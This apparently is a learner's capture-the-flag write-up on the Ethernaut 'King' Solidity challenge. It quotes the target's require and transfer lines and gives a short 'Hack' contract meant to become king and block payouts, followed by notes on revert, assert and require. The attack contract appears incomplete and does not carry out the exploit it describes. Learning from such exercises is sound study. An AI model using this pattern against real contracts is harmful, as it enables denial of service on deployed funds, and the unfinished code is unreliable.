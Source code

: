 ## Description
It wasn't clear where to start, I couldn't find anywhere to try to exploit or hack anything except in these lines :
```
require(msg.value >= prize || msg.sender == owner);
```
```
payable(king).transfer(msg.value);
```
That's why I started to read first for require, because I realized that I don't fully understand how it works inside. In the end, I learned a lot of new things for myself. I'll leave it in my notes. I realized that the solution is probably in the second line. Went to read more for receiving, found a solution to the previous problem that I missed. And came up with the idea that king would be the address of the contract and make some receive function in it.
```
interface IKing {
    
}

contract Hack{
    IKing public king;

    constructor(address payable _king) {
        king = IKing(_king);
    }

    receive() external payable {
        payable(address(king)).transfer(msg.value);
    }

}
```
## Notes
revert - for more complex logic, with if else
assert - to check for a logic error that should not be there, takes away the gas, saves the error in bytecode differently (Panic(uint256) 0x00, 0x01 ...) so that it can be traced as far as I understand. a > b+c; assert( a > b). internal errors. 
require - for user checking.
But while reading about all this, I came across how to fulfill the previous task
![](selfdestruct_for_lvl7.png)